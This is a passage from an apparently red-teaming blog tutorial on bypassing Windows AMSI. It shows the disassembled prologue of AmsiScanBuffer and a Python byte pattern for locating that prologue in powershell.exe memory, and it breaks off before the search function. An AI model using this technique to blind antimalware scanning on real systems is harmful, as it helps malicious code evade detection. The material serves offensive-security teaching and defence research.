 Much better!

<div>
<cta-banner
buttontxt="Read more"
link="/solutions/red-teaming/"
title="Get started with Fluid Attacks' Red Teaming solution right now"
/>
</div>

### Find the address in memory of AmsiScanBuffer

As we saw in our [previous post](../amsi-bypass/),
`AmsiScanBuffer` is the function which is the interface
between the AMSI-hooked process and the underlying EDR.

The function prologue can be seen under a debugger:

```x86asm
0:010> u amsi!AmsiScanBuffer
amsi!AmsiScanBuffer:
00007ffd`4c278260 4c8bdc          mov     r11,rsp
00007ffd`4c278263 49895b08        mov     qword ptr [r11+8],rbx
00007ffd`4c278267 49896b10        mov     qword ptr [r11+10h],rbp
00007ffd`4c27826b 49897318        mov     qword ptr [r11+18h],rsi
00007ffd`4c27826f 57              push    rdi
00007ffd`4c278270 4156            push    r14
00007ffd`4c278272 4157            push    r15
00007ffd`4c278274 4883ec70        sub     rsp,70h
```

Using the opened handle,
we need to find those instructions
in the memory of the `powershell.exe` process.

First,
we need to write down those bytes in a variable:

```python
AmsiScanBuffer = (
    b'\x4c\x8b\xdc' +       # mov r11,rsp
    b'\x49\x89\x5b\x08' +   # mov qword ptr [r11+8],rbx
    b'\x49\x89\x6b\x10' +   # mov qword ptr [r11+10h],rbp
    b'\x49\x89\x73\x18' +   # mov qword ptr [r11+18h],rsi
    b'\x57' +               # push rdi
    b'\x41\x56' +           # push r14
    b'\x41\x57' +           # push r15
    b'\x48\x83\xec\x70'     # sub rsp,70h
)
```

Then, using the discovered base address of `amsi.dll`,
we need to iterate over the memory of the process
trying to find those instructions.
To do that,
I created the following function:
